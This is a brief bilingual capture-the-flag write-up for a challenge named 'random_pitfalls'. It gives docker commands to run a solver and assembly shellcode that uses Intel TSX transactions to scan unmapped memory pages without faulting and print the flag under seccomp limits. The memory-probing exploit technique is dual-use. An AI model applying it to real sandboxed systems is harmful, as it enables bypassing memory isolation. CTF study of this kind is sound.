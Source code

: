 # ja
# 解き方
## ソルバー作成
cd solver
docker build -t random_pitfalls_solver .
## ソルバー起動
docker run -it --rm random_pitfalls_solver RHOST=${HOSTNAME}

## 解説
TSX-NIのトランザクションの最中にアクセスできないメモリ領域に触っても処理がabort
（トランザクション内の処理が無かったことになってxbeginで指定したラベルにジャンプ）
するだけでページフォルトは発生しないので、この特徴を利用して確保された64ページ全部をスキャンする。
具体的には↓みたいな感じでフラグを標準出力に吐き出せる。
writeの引数はseccompで決まった値しか許されていないことに要注意。
```
	mov rcx, 64
L1:
	xbegin L3
	mov rbx, 0
L2:
	mov rax, [rdi+8*rbx]
	xor [rsi+8*rbx], rax
	inc rbx
	cmp rbx, 5
	jne L2
	xend
L3:
	add rdi, 4096
	loop L1
	mov rax, 1
	mov rdi, 1
	mov rdx, 40
	syscall     /* write(1, buf, 40) */
	ret
```


# en

# writeup
## Create solver
cd solver
docker build -t random_pitfalls_solver .
## Solver start
docker run -it --rm random_pitfalls_solver RHOST=${HOSTNAME}

## Explanation
Even if you touch a memory area that cannot be accessed during the TSX-NI transaction, the process will only abort (jump to the label specified by xbegin because there was no processing in the transaction) and no page fault will occur. Scans all 64 pages secured using this feature.
Specifically, the flag can be discharged to the standard output like ↓.
Note that the write argument is only allowed by the value determined by seccomp.

```
	mov rcx, 64
L1:
	xbegin L3
	mov rbx, 0
L2:
	mov rax, [rdi+8*rbx]
	xor [rsi+8*rbx], rax
	inc rbx
	cmp rbx, 5
	jne L2
	xend
L3:
	add rdi, 4096
	loop L1
	mov rax, 1
	mov rdi, 1
	mov rdx, 40
	syscall     /* write(1, buf, 40) */
	ret
```
